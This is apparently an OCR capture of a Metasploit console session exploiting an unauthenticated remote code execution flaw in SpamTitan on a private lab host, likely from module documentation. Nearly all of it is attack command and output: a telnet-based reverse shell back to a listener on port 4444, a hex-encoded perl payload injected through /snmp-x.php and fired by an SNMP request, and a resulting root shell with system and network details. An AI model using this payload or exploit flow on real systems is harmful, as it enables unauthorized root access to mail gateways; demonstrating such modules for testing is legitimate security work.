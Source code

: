 ```

Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.60.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix In-Memory


msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > check

[*] Check if /snmp-x.php exists
[*] 172.16.60.101:80 - The target appears to be vulnerable.
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > run

[+] sh -c '(sleep 4511|telnet 172.16.60.1 4444|while : ; do sh && break; done 2>&1|telnet 172.16.60.1 4444 >/dev/null 2>&1 &)'
[*] Started reverse TCP double handler on 172.16.60.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Check if /snmp-x.php exists
[+] The target appears to be vulnerable.
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c 'perl -e system -e pack -e qq,H244,,qq,7368202d63202728736c65657020333735347c74656c6e6574203137322e31362e36302e3120343434347c7768696c65203a203b20646f20736820262620627265616b3b20646f6e6520323e26317c74656c6e6574203137322e31362e36302e312034343434203e2f6465762f6e756c6c20323e263120262927,'#
[*] Send an SNMP Get-Request to trigger the payload
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo ldqlDor8slARqZ0Q;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "Connected: not found\r\nEscape: not found\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (172.16.60.1:4444 -> 172.16.60.101:38973) at 2020-10-28 15:56:55 +0100

id
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
uname -a
FreeBSD spamtitan.example.com 10.1-RELEASE-p8 FreeBSD 10.1-RELEASE-p8 #1: Wed May  6 10:36:09 IST 2015     root@stbuild-10-amd64.spamtitan.com:/usr/obj/usr/src/sys/SPAMTITAN  amd64
ifconfig
em0: flags=8843<UP,BROADCAST,RUNNING,SIMPLEX,MULTICAST> metric 0 mtu 1500
	options=9b<RXCSUM,TXCSUM,VLAN_MTU,VLAN_HWTAGGING,VLAN_HWCSUM>
	ether 00:0c:29:cb:1d:73
	inet 172.16.60.101 netmask 0xffffff00 broadcast 172.16.60.255
	nd6 options=29<PERFORMNUD,IFDISABLED,AUTO_LINKLOCAL>
	media: Ethernet autoselect (1000baseT <full-duplex>)
	status: active
lo0: flags=8049<UP,LOOPBACK,RUNNING,MULTICAST> metric 0 mtu 16384
	options=600003<RXCSUM,TXCSUM,RXCSUM_IPV6,TXCSUM_IPV6>
	inet6 ::1 prefixlen 128
	inet6 fe80::1%lo0 prefixlen 64 scopeid 0x2
```